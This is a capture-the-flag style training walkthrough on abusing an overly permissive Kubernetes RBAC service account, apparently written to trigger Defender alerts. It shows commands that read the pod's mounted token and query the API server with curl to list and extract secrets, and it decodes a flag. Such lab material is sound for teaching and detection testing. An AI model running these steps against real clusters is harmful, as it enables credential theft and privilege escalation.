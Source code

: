 # RBAC least privileges misconfiguration

---change after rename of repo---

In this scenario, we will see how simple misconfiguration like this can gain access to secrets, more resources, and information

We commonly see in the real world where developers and DevOps teams tend to provide extra privileges than required. This provides attackers more control and privileges than they intended to be. In this scenario, you can leverage the service account bound to the pod to provide webhookapikey access, but using this attacker can gain control over other secrets and resources

## The goal: Find the k8s_goat_flag flag value by gaining access to the Kubernetes secret k8svaultapikey by exploiting the RBAC privileges to complete this scenario

Run the following command using the name of your hunger-check-pod which runs ion the big-monolith namespace

```
kubectl get pods -n big-monolith
```

```
kubectl exec -n big-monolith -it <name-of-your-hunger-check-pod> -- /bin/bash
```

This deployment has a custom ServiceAccount mapped with an overly permissive policy/privilege. As an attacker, we can leverage this to gain access to other resources and services

By default the Kubernetes stores all the tokens and service accounts information in the default place, navigate to there to find the useful information

```
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

```
ls -larth
```

Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges
lets export some variables to be used to query the API server

```
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```
```
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```
```
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```
```
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```
```
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
```
```
export CACERT=${SERVICEACCOUNT}/ca.crt
```

Now we can explore the Kubernetes API with the token and the constructed queries

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

To query the available secrets in the default namespace run the following command

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

To query the secrets specific to the namespace

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

To query the pods in the specific namespace

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```

Get the k8svaulapikey value from the secrets

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```

We can decode the base64 encoded value using the following command

```
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

Soon you will be able to see the Defender alerts showing up in the portal

![rbac-1](/images/rbac-1.png)

![rbac-2](/images/rbac-2.png)